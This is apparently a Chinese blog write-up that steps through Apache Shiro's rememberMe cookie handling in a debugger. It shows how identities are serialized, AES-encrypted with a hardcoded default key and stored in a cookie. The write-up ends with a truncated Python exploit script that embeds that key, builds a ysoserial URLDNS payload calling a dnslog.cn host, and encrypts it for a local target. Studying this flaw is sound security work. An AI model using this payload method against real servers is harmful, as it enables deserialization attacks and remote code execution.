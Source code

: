 首先看登陆过程, 在`org.apache.shiro.mgt.AbstractRememberMeManager#onSuccessfulLogin`打下断点, 随后在浏览器中选中Remember Me选项进行登陆, 程序进入断点:

![image-20220122163548996](/images/shiro-attack/image-20220122163548996.png)

在`forgetIdentity`函数中, 会尝试获取request 和 response, 并移除之前的身份信息.

![image-20220122164355343](/images/shiro-attack/image-20220122164355343.png)

回到之前的函数, 进入第一个if分支, 进入`rememberIdentity`函数, `this.getIdentityToRemember`函数获取到身份信息, 然后调用`rememberIdentity`函数.

![image-20220122164841524](/images/shiro-attack/image-20220122164841524.png)

`rememberIdentity`函数中, 首先将`accountPrincipals`转换成bytes

![image-20220122165211999](/images/shiro-attack/image-20220122165211999.png)

转换的逻辑为先进行序列化然后再进行加密, 如下

![image-20220122165440695](/images/shiro-attack/image-20220122165440695.png)

加密的方式为AES加密

![image-20220122170022825](/images/shiro-attack/image-20220122170022825.png)

跟进密钥获取的函数

![image-20220122170008256](/images/shiro-attack/image-20220122170008256.png)

从最后一行可以看到,在对象初始化的时候, 自动设置密钥为默认密钥

![image-20220122165857201](/images/shiro-attack/image-20220122165857201.png)

返回到`rememberIdentity`函数, 跟进`rememberSerializedIdentity`, 这里主要是将加密结果经过base64之后存储进cookie中

![image-20220122172439145](/images/shiro-attack/image-20220122172439145.png)

### rememberMe解密过程

在``org.apache.shiro.mgt.DefaultSecurityManager#getRememberedIdentity` 打下断点, 使用脚本向本地服务器发送payload

```python
from Crypto.Cipher import AES
import traceback
import requests
import subprocess
import uuid
import base64

target = "http://localhost:8000/web_war/"
jar_file = './ysoserial.jar'
cipher_key = "kPH+bIxk5D2deZiIxcaaaA=="

popen = subprocess.Popen(['java','-jar',jar_file, "URLDNS", "http://ktclkl.dnslog.cn"],
                        stdout=subprocess.PIPE)
BS = AES.block_size
pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
mode = AES.MODE_CBC
iv = uuid.uuid4().bytes
encryptor = AES.new(base64.b64decode(cipher_key), mode, iv)
getget = popen.stdout.read()
file_body = pad(getget)
base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))

try:
    print(base64_ciphertext.decode())
```